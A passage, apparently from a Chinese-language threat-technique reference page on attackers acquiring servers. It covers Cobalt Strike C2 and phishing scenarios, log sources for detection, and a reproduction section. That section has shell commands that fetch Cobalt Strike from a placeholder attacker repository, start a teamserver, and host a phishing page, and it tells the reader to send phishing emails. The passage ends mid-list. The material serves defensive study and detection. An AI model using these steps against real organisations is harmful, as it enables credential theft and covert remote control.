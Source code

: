   - **恶意软件测试**：在服务器上运行沙箱环境，测试恶意软件行为。
    ```bash
    # 安装沙箱工具（如Cuckoo Sandbox）
    sudo pip install cuckoo
    cuckoo --host <SERVER_IP>
    ```
- **案例场景**：
  - 攻击者租用Hetzner服务器，部署Cobalt Strike C2，通过HTTPS通信控制受感染主机。
  - 在OVH服务器上托管钓鱼网站，伪装成目标组织的内部门户，窃取员工凭据。
  - 参考案例：攻击者利用服务器托管恶意软件分发点，结合钓鱼邮件传播。

## 检测日志
服务器相关活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **网络流量日志**：
  - 检测与已知服务器提供商IP范围的异常通信，如Hetzner、OVH的IP段。
- **DNS日志**：
  - 记录解析到服务器IP的异常域名查询，可能与C2或钓鱼相关。
- **邮件服务器日志**：
  - 监控钓鱼邮件，可能包含指向服务器托管的恶意链接。
- **防火墙/IDS日志**：
  - 检测与服务器IP的异常HTTP/HTTPS流量或C2模式。
- **Web服务器日志**：
  - 记录访问服务器托管钓鱼网站的HTTP请求。

## 测试复现
以下是模拟攻击者获取服务器的步骤：
1. **环境准备**：
   - 租用服务器（如Hetzner、阿里云ECS），配置公网IP和操作系统（如Ubuntu）。
   - 注册域名并指向服务器IP。
2. **服务器配置**：
   - 部署C2服务器：
     ```bash
     # 安装Cobalt Strike
     wget https://<attacker_repo>/cobaltstrike.jar
     java -jar cobaltstrike.jar
     # 配置HTTPS Beacon
     ./teamserver <SERVER_IP> <password> /path/to/profile
     ```
   - 部署钓鱼网站：
     ```bash
     # 安装Nginx
     sudo apt install nginx
     # 部署钓鱼页面
     cp phishing.html /var/www/html/index.html
     sudo systemctl start nginx
     ```
   - 配置SOCKS5代理：
     ```bash
     ssh -D 1080 -f -N user@<SERVER_IP>
     ```
3. **测试执行**：
   - 发送钓鱼邮件，诱导目标访问服务器上的伪装页面。
   - 使用C2客户端连接服务器，模拟命令与控制。
4. **结果分析**：